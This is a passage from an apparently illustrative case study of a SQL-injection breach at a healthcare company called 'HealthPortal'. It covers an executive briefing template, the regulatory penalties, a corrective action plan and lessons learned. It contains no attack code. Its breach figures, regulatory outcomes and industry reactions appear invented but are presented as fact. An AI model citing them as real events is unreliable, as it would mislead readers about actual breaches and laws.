SUBJECT: Data Security Incident - Executive Briefing

TO: Board of Directors, Executive Leadership Team
FROM: [CISO Name], Chief Information Security Officer
DATE: [Date]

EXECUTIVE SUMMARY
HealthPortal experienced a data breach affecting 2.5 million patient records. The breach was caused by a SQL injection vulnerability combined with inadequate security controls. Total estimated cost: $18.7 million.

CURRENT STATUS: [GREEN/YELLOW/RED]
• Containment: COMPLETE
• Eradication: COMPLETE
• Recovery: COMPLETE
• Investigation: ONGOING
• Regulatory Response: IN PROGRESS

KEY FACTS
• Attack Start: July 6, 2024
• Discovery: August 22, 2024 (via external notification)
• Containment: August 23, 2024
• Root Cause: SQL injection vulnerability
• Affected Records: 2.5 million patients
• Data Compromised: PHI including SSN, medical histories
• Attacker Motive: Financial (dark web sale)

IMMEDIATE ACTIONS TAKEN
✓ Vulnerability patched
✓ Unauthorized access blocked
✓ Forensic investigation completed
✓ Regulatory notifications filed
✓ Patient notifications sent
✓ Credit monitoring offered

BUSINESS IMPACT
• Financial: $18.7M total estimated cost
• Regulatory: HIPAA, state, and GDPR fines
• Legal: Class action lawsuit filed
• Reputational: Significant negative media coverage
• Operational: 8 hours service disruption

ROOT CAUSES
1. Technical: SQL injection vulnerability, lack of input validation
2. Process: No security testing, legacy code not maintained
3. Organizational: Under-resourced security team, insufficient budget
4. Cultural: Security not prioritized, compliance-focused vs. security-focused

REMEDIATION PLAN
Short-term (Complete):
• Eliminate SQL injection vulnerabilities
• Deploy WAF
• Implement database encryption
• Enhanced monitoring and detection

Long-term (In Progress):
• Security team expansion (2 → 15 people)
• SIEM deployment
• Secure SDLC implementation
• Security culture transformation
• Zero Trust architecture

LESSONS LEARNED
• Prevention: Input validation and parameterized queries are non-negotiable
• Detection: 47-day dwell time unacceptable; monitoring essential
• Investment: Security requires adequate resources
• Culture: Security must be prioritized at all levels

RECOMMENDATIONS
1. Approve $4.5M annual security budget (12% of IT budget)
2. Establish Board-level security committee
3. Quarterly security reviews with Board
4. Annual independent security assessments
5. Commit to security culture transformation

NEXT STEPS
• Complete security infrastructure upgrades (90 days)
• Achieve SOC 2 Type II certification (6 months)
• Obtain ISO 27001 certification (12 months)
• Regular penetration testing (quarterly)
• Continuous security improvements

ATTACHMENTS
• Detailed forensic report
• Remediation roadmap
• Budget request
• Risk register
• Regulatory correspondence

For questions, contact: [CISO Email/Phone]
```

---

## Regulatory Response

### HHS OCR (Office for Civil Rights) Investigation

**Investigation Timeline**:


**OCR Findings**:

1. **HIPAA Security Rule Violations**:
   - **§164.308(a)(1)(ii)(A)** - Risk Analysis: Failed to conduct accurate and thorough assessment
   - **§164.308(a)(1)(ii)(B)** - Risk Management: Failed to implement security measures
   - **§164.308(a)(3)(i)** - Workforce Security: Failed to implement procedures for workforce access
   - **§164.308(a)(5)(ii)(C)** - Log-in Monitoring: Failed to monitor log-in attempts
   - **§164.312(a)(1)** - Access Control: Failed to implement technical policies and procedures
   - **§164.312(b)** - Audit Controls: Failed to implement audit controls
   - **§164.312(e)(1)** - Transmission Security: Failed to guard against unauthorized access during transmission

2. **Penalties Assessed**:
   - Base penalty: $5,000,000
   - Corrective Action Plan required
   - 3-year monitoring period
   - Quarterly compliance reports

**Corrective Action Plan (CAP) Requirements**:

```yaml
corrective_action_plan:
  duration: 3 years
  
  requirements:
    risk_management:
      - conduct_comprehensive_risk_analysis: quarterly
      - implement_risk_management_plan: ongoing
      - document_risk_decisions: all
      
    workforce_security:
      - authorization_procedures: implement
      - workforce_clearance: enhance
      - termination_procedures: improve
      - access_reviews: quarterly
      
    access_management:
      - unique_user_identification: enforce
      - emergency_access: procedures
      - automatic_logoff: implement
      - encryption_decryption: mandate
      
    audit_controls:
      - implement_audit_controls: complete
      - log_all_access: PHI access
      - review_logs: daily
      - retain_logs: 6 years
      
    transmission_security:
      - integrity_controls: implement
      - encryption: mandate_TLS_1.3
      - secure_protocols: enforce
      
  reporting:
    frequency: quarterly
    contents:
      - progress_on_requirements
      - metrics_and_KPIs
      - incidents_and_breaches
      - training_completion
      - audit_results
      
  monitoring:
    on_site_audits: annual
    desk_reviews: quarterly
    spot_checks: as_needed
```

### State Attorney General Actions

**Multi-State Investigation**:
- 38 states participated in investigation
- Coordinated by National Association of Attorneys General (NAAG)
- Focus on state data breach notification laws

**Settlement Terms**:
- Total state fines: $2,500,000
- Enhanced security requirements
- Annual attestations for 3 years
- Consumer restitution fund: $500,000

### GDPR Investigation (EU)

**Lead Supervisory Authority**: Ireland Data Protection Commission (DPC)

**Findings**:
- Article 5(1)(f) - Integrity and confidentiality: Violated
- Article 32 - Security of processing: Violated
- Article 33 - Notification of breach: Met (timely notification)
- Article 34 - Communication to data subjects: Met

**Penalty**: €950,000 (approximately $1,000,000 USD)

---

## Industry Impact and Legacy

### Healthcare Industry Response

**Industry-Wide Changes**:
1. Increased focus on application security
2. Enhanced database security requirements
3. Mandatory security assessments for EHR vendors
4. Stricter third-party risk management
5. Industry-wide security working groups formed

**Healthcare ISAC (Information Sharing and Analysis Center)**:
- Released threat advisory on SQL injection
- Shared indicators of compromise (IOCs)
- Developed best practices guide
- Conducted industry-wide webinars

### Regulatory Changes

**Proposed Regulations**:
1. **HIPAA Modifications** (proposed):
   - Mandatory cybersecurity requirements
   - Stricter vendor oversight
   - Reduced breach notification timeline (72 hours → 24 hours)
   - Increased penalties for negligence

2. **State Legislation**:
   - 12 states passed stricter data breach laws
   - Enhanced consumer notification requirements
   - Mandatory security frameworks for healthcare

### Academic and Research Impact

**Published Research**:
- 15 academic papers analyzing the breach
- Security conference presentations
- Case studies in university curricula
- Industry best practices documentation

**Key Findings from Research**:
- SQL injection remains prevalent (OWASP Top 10)
- Detection capabilities lag behind attack sophistication
- Organizational factors as important as technical controls
- Need for security culture transformation

---

## Future Outlook

### HealthPortal's Security Transformation

**12-Month Progress Report**:

```mermaid
graph LR
    A[Security Maturity] -->|Initial| B[Level 1: Ad-hoc]
    B -->|6 Months| C[Level 3: Defined]
    C -->|12 Months| D[Level 4: Managed]
    D -->|Target| E[Level 5: Optimizing]
    
    style B fill:#ffcccc
    style C fill:#ffffcc
    style D fill:#ccffcc
    style E fill:#ccccff
```

**Achievements**:
- Zero critical vulnerabilities in production
- 99.9% reduction in MTTD
- SOC 2 Type II certification obtained
- ISO 27001 certification in progress
- No security incidents in 12 months
- Industry recognition for security improvements

**Ongoing Initiatives**:
- AI/ML for anomaly detection
- Zero Trust architecture implementation
- DevSecOps maturity improvements
- Security automation and orchestration
- Threat intelligence program

### Industry Best Practices Emerging

**New Standards**:
1. **Healthcare Database Security Standard**
   - Field-level encryption for all PHI
   - Database activity monitoring required
   - Annual penetration testing
   - Secure configuration baselines

2. **Secure Development for Healthcare**
   - Mandatory SAST/DAST in CI/CD
   - Security training for all developers
   - Threat modeling for all applications
   - Security champions program

3. **Zero Trust for Healthcare**
   - Microsegmentation requirements
   - Continuous authentication and authorization
   - Data-centric security
   - Assume breach mentality

---

## Conclusion

The HealthPortal data breach serves as a stark reminder that security cannot be an afterthought. A $2 million investment in preventive security would have saved $18.7 million in breach costs, not to mention the immeasurable damage to patient trust and organizational reputation.

### Key Imperatives for Healthcare Organizations

1. **Security as a Strategic Priority**
   - Board-level oversight and investment
   - Adequate security budgets (12-15% of IT spend)
   - Empowered security leadership
   - Security culture from top-down

2. **Technical Excellence**
   - Secure by design architecture
   - Defense in depth implementation
   - Continuous monitoring and detection
   - Regular security testing

3. **Operational Discipline**
   - Secure SDLC processes
   - Vulnerability management programs
   - Incident response readiness
   - Regular access reviews

4. **Compliance as Baseline**
   - HIPAA as minimum, not maximum
   - Multiple compliance frameworks
   - Continuous compliance monitoring
   - Proactive regulatory engagement

5. **People and Culture**
   - Security training and awareness
   - Blameless post-mortems
   - Security champions networks
   - Continuous learning

**Final Thought**: The question is not *if* your organization will face a cyber attack, but *when*. The difference between a minor incident and a catastrophic breach often comes down to preparation, investment, and culture.

**Remember**: Patient data is not just information—it's trust. Protecting it is not just a compliance requirement—it's a moral obligation.

---
